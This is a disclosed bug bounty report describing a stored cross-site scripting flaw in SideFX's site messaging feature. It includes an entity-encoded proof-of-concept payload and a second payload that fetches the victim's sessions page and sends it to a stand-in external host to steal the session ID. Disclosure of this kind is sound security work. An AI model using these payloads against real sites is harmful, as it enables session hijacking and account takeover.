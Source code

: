 # Stored XSS in messages

## Report Details
- **Report ID**: 1669764
- **URL**: https://hackerone.com/reports/1669764
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-08-15T15:41:56.569Z
- **Disclosed**: 2024-04-17T06:56:12.618Z

## Reporter
- **Username**: itriedallthenamess
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: sidefx

## Vulnerability Information
## Summary:
I have researched availabilities for XSS attacks and i found it in messages.
You should be authorized for this and approved by admin. 
To do this, you just need to make a post on the forum, which I did as the first step.

I was able to steal the session ID of the victim account (my second test account) and log in using it.
A session cannot be stolen via cookies, but the user has a page https://www.sidefx.com/account/sessions/. I sent a request to this page through the victim's account, and then inserted an image on the page with a link to my site. As a get parameter, I specified an html response encoded in base64``<img src=http://mysite.com?q={HTML}>``. It works even without a certificate

## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1. Your account must be approved to be able to send messages
  1. Send message for some user (I sent messages to myself and my second test account). Message content ``https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxx&quotonerror=&quotalert&#40&#39XSS&#39&#41&quot&gt``
  1. Open a received or just sent message. You will see `alert` message

## Supporting Material/References:
My payload for getting session:
``https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxxx&quotonerror=&quotfetch&#40&#39https&#58&#47&#47www.sidefx.com/account/sessions&#39&#41.then&#40response=&gt&#123response.text&#40&#41.then&#40ddd=&gt&#123let&#32el=document.createElement&#40&#39img&#39&#41&#59el.src=&#39http&#58&#47&#47myfakesite.com?q=&#39&#43btoa&#40encodeURIComponent&#40ddd&#41&#41&#59document.body.appendChild&#40el&#41&#125&#41&#125&#41&quot&gt``

## Impact

This is a really critical vulnerability, because the site has a list of forum users (https://www.sidefx.com/forum/users/) and such a load can be sent to each user

## Attachments
No attachments
